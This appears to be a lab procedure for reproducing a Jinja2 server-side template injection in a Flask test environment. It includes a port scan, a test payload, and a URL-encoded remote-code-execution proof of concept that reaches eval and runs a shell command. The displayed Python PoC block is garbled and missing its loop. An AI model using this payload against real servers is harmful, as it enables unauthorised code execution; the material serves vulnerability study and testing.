**Name:** `vulnhub-flask-ssti`  
**Target port:** 8000 / TCP

**Port Scan:**

```bash
attacklog start --name vulnhub-flask-ssti-portscan --dst-ip 192.168.77.220 --dst-port 8000
```

```bash
nmap -p 8000 192.168.77.220
```

```bash
attacklog end --status ran
```

**Conducting the attack:**

```bash
attacklog start --name vulnhub-flask-ssti --dst-ip 192.168.77.220 --dst-port 8000
```

Flask is a popular Python web framework that uses Jinja2 as its template engine. A Server-Side Template Injection (SSTI) vulnerability can occur when user input is directly rendered in Jinja2 templates without proper sanitization, potentially leading to remote code execution.

#### Environment Setup

```
docker compose up -d
```

After the server starts, visit `http://192.168.77.220:8000/` to view the default page.

#### Vulnerability Reproduction

First, verify the SSTI vulnerability exists by visiting:

```
http://192.168.77.220:8000/?name={{233*233}}
```

If you see the result `54289`, it confirms the presence of the SSTI vulnerability.

To achieve remote code execution, use the following POC that obtains the `eval` function and executes arbitrary Python code:

```python


  
  
    
      {{ b['eval']('__import__("os").popen("id").read()') }}
    
  
  


```

Visit the following URL (with the POC URL-encoded) to execute the command:

```
http://192.168.77.220:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

The command execution result will be displayed:



```bash
attacklog end --status <success|ran|error>
```

---

---
